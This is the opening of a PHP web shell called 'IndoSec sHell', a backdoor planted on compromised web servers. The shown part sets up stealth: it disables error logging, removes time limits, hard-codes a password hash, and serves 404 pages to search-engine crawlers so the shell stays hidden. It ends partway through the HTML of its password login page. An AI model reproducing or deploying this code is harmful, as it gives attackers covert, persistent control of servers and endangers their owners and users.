 <?php
/*
Konsep Shell : Brillyan -Founder { IndoSec }-
Pembuat : Holiq -Member { IndoSec }-
Re-Code Boleh Asal Dah Izin Sama Pembuata, Ganti Author & Re-Code Tanpa Seizin Pembuata... Fix Lo Noob Anjenk, Klo Kga Bisa Bikin Cek Chanel IndoSec, Ada Tutornya, Jangan Cuma Bisa Ganti Author Doank Bangsad
 
Thanks For All Member { IndoSec }, Yang Telah Membantu Proses Pembuatan Shell, Dan Dari Shell Lain Untuk Inspirasinya
 
{ IndoSec sHell } v1
Untuk Tools Yang Lain Akan Ditambahkan DiVersi Berikutnya
©2019 { IndoSec } -Holiq-
*/
session_start();
error_reporting(0);
set_time_limit(0);
@clearstatcache();
@ini_set('error_log',NULL);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0);
@ini_set('display_errors', 0);
 
$auth_pass = "9ce3b2f378b10d8191107583f7127fbd"; //  { IndoSec }
$color = "#00ff00";
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'UTF-8';
if(!empty($_SERVER['HTTP_USER_AGENT'])) {
    $userAgents = array("Googlebot", "Slurp", "MSNBot", "PycURL", "facebookexternalhit", "ia_archiver", "crawler", "Yandex", "Rambler", "Yahoo! Slurp", "YahooSeeker", "bingbot");
    if(preg_match('/' . implode('|', $userAgents) . '/i', $_SERVER['HTTP_USER_AGENT'])) {
        header('HTTP/1.0 404 Not Found');
        exit;
    }
}
 
function login_shell() {
?>
<!DOCTYPE html>
<html>
    <title>{ IndoSec sHell }</title>
    <head>
        <meta name="viewport" content="widht=device-widht, initial-scale=1.0"/>
        <meta name="author" content="Holiq"/>
        <meta name="copyright" content="{ IndoSec }"/>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.0/css/bootstrap.min.css"/>
        <link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.1/css/all.css" integrity="sha384-fnmOCqbTlWIlj8LyTjo7mOUStjsKC4pOpQbqyi7RrhN7udi9RwhKkMHpvLbHG9Sr" crossorigin="anonymous"/>
    </head>
    <body class="bg-dark text-light">
        <center>
            <br/><h3>{ IndoSec Shell }</h3><hr/><br/>
            <div class="container">
                <div class="col-lg-6">
                    <div class="form-group">
                    <h5><i class="fa fa-sign-in-alt"></i> { login }</h5>
                    <br/>
                        <form method="post">
                            <input type="password" name="pass" placeholder="Id User.." class="form-control"><br/>
                            <input type="submit" class="btn btn-danger btn-block" class="form-control" value="Login">
                        </form>